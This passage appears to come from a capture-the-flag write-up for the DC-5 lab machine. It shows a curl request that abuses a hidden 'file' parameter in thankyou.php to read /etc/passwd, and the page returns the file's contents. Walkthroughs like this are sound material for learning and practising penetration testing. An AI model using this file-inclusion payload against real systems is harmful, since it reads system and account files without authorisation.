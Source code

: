 ## Read arbitrary files

`wfuzz` has discovered a hidden `file` parameter that we can use to read arbitrary files (e.g. `/etc/passwd`):

~~~
kali@kali:/data/DC_5$ curl -s http://dc-5/thankyou.php?file=/etc/passwd
<!doctype html>

<html lang="en">
<head>
	<meta charset="utf-8">
	<title>Contact</title>
	<link rel="stylesheet" href="css/styles.css">
</head>

<body>
	<div class="body-wrapper">
		<div class="header-wrapper">
			<header>
				DC-5 is alive!
			</header>
		</div>
		
		<div class="menu-wrapper">
			<menu>
				<ul>
					<a href="index.php"><li>Home</li></a>
					<a href="solutions.php"><li>Solutions</li></a>
					<a href="about-us.php"><li>About Us</li></a>
					<a href="faq.php"><li>FAQ</li></a>
					<a href="contact.php"><li>Contact</li></a>
				</ul>
			</menu>
		</div>
	
		<div class="body-content">
			<h2>Thank You</h2>

				<p>Thank you for taking the time to contact us.</p>

		</div>
		
		<div class="footer-wrapper">
			<footer>
				root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
~~~